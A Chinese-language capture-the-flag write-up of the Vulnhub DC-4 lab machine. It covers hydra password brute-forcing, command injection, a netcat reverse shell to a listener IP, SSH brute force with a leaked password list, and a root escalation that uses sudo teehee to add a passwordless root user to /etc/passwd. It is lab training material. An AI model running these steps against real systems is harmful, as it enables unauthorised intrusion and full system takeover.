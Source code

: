 ```yaml
---
title: Vulnhub - DC-4 の Write-Up
date: 2019-11-20 14:24:17
categories:
- WriteUPs
- Vulnhub
tags:
- Web
- DC Series
---
```

## 前言

[Vulnhub](https://www.vulnhub.com/)之DC系列靶机[DC-4](http://www.five86.com/downloads/DC-4.zip)的Write-up。

<!-- more -->

## Step 1

扫描找靶机IP+扫描靶机端口找服务老套路，这次没有设置奇怪的端口。

![](/img/DC-4/DC-4-1.png)

![](/img/DC-4/DC-4-2.png)

## Step 2

访问80端口的Web服务是一个简单的登录框。以为登录框会有注入漏洞啥的，首先扫了一下网站目录结构，没有任何发现。然后用nikto帮助找一下思路，还是一无所获。

![](/img/DC-4/DC-4-3.png)

难道是SQL注入？尝试了万能密码，手动注入，还用SQLMAP跑了一下，果然全是空。

![](/img/DC-4/DC-4-4.png)

## Step 3

行吧，只能上最笨也是最直接的方法了，密码爆破。根据Web界面的提示，说明后台是admin用户，那就简单了。只需要爆破admin用户的密码即可，BurpSuite跑的有点慢，所以用hydra搞定了。

![](/img/DC-4/DC-4-5.png)

登录进系统发现可以执行命令，刚开始以为做了防护，提交的仅仅是编号。结果使用BurpSuite抓包后发现还是直接提交命令。修改命令，回显可以成功执行。

![](/img/DC-4/DC-4-6.png)

![](/img/DC-4/DC-4-7.png)

## Step 4

使用`nc -e /bin/bash 172.16.12.129 4444`反弹shell到Kali上。

![](/img/DC-4/DC-4-8.png)

反弹回来的是一个非交互式的shell，通过`python -c "import pty; pty.spawn('/bin/sh')"`得到交互式shell。在/home/jim/backups/文件夹下有个old-passwords.bak文件，里面是一些密码。

![](/img/DC-4/DC-4-9.png)

## Step 5

利用上一步得到的密码文件爆破ssh端口。

![](/img/DC-4/DC-4-10.png)

## Step 6

ssh登录靶机之后，在/var/mail文件夹下找到一封邮件，邮件中有Charles账户的密码。

![](/img/DC-4/DC-4-11.png)

利用该密码可ssh登录Charles账户。

## Step 7

登录Charles账户后发现可以用sudo命令执行teehee命令，查看teehee命令用法。

![](/img/DC-4/DC-4-12.png)

利用teehee命令向/etc/passwd中添加一个和root权限一样的无密码用户，这样就可以切换到root用户，在根目录下找到flag。

![](/img/DC-4/DC-4-13.png)